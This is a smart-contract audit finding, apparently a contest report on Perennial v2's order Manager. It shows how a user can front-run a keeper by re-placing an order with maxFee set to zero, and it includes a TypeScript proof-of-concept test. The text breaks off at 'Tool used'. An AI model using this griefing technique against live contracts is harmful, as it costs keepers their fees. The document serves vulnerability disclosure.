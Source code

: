 ```solidity
function _raiseKeeperFee(
        UFixed18 amount,
        bytes memory data
    ) internal virtual override returns (UFixed18) {
        (IMarket market, address account, UFixed6 maxFee) = abi.decode(data, (IMarket, address, UFixed6));
        UFixed6 raisedKeeperFee = UFixed6Lib.from(amount, true).min(maxFee);

        _marketWithdraw(market, account, raisedKeeperFee);

        return UFixed18Lib.from(raisedKeeperFee);
    }
```
The problem is that the user can front-run the keepers' tx and change the maxFee to 0 to grief the keeper. 

https://github.com/sherlock-audit/2024-08-perennial-v2-update-3/blob/main/perennial-v2/packages/perennial-order/contracts/Manager.sol#L76-L78
```solidity
function placeOrder(IMarket market, uint256 orderId, TriggerOrder calldata order) external {
        _placeOrder(market, msg.sender, orderId, order);
        
    }
```

The user can call the placeOrder function using the same orderId as before and modify the order with a lower maxFee amount.
## Impact
The keeper can lose a fee.
## Code Snippet
POC:

Manager_Arbitrum.ts

```ts
it('test maxFee', async () => {
      // userA places a 5k maker order
      // maxFee is 0.88e18
      const orderId = await placeOrder(userA, Side.MAKER, Compare.LTE, parse6decimal('3993.6'), parse6decimal('55'))
      expect(orderId).to.equal(BigNumber.from(501))

      const order = {
        side: Side.MAKER,
        comparison: Compare.LTE,
        price: parse6decimal('3993.6'),
        delta: parse6decimal('55'),
        maxFee: utils.parseEther('0'),
        isSpent: false,
        referrer: constants.AddressZero,
        ...NO_INTERFACE_FEE,
      }
      //before the keepers tx, userA changes the maxFee
      await expect(manager.connect(userA).placeOrder(market.address, orderId, order, TX_OVERRIDES))

      await commitPrice(parse6decimal('2800'))

      await executeOrder(userA, 501)
    })
```
## Tool used
